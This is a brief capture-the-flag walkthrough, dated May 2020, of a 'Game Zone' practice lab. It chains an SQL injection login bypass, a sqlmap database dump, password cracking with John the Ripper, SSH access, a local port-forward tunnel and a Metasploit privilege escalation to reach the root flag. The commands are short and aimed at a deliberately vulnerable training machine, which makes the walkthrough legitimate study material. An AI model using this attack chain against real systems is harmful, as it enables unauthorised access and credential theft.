


# Game Zone

> Nashia Holloway | May 2nd 2020

## Task 1 Deploy

**2. What is the name of the large cartoon avatar holding the sniper on the forum?**

```
Agent 47
```

## Task 2 Gain Access via SQLi

```
' or 1=1 -- -
```

## Task 3 Using SQLMap

```
sqlmap -r request.txt --dbms=mysql --dump
```

request.txt is the request intercepted by BurpSuite when attempting to search something in the webapp.

## Task 4 Cracking a Passowrd with JohnTheRipper

**2. What is the cracked password?**

```
sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

hash.txt just holds the hash found in the database dump.

**3. SSH into the machine. What is the user flag?**

```
ssh agent47@$IP
```

## Task 5 Exposing Services with Reverse SSH Tunnels

**1. How many TCP sockets are running?**

```
ss -tulpn
```



**2. What is the name of the exposed CMS?**

```
ssh -L 10000:localhost:10000 agent47@$IP
```

## Task 6 Priv Esc with Metasploit

**1. What is the root flag?**



We use number 4. Set RHOSTS to localhost, and add username and password we have. **Make sure to set SSL to FALSE**. Set LHOST to tun0.

```
cat /root/root.txt
```

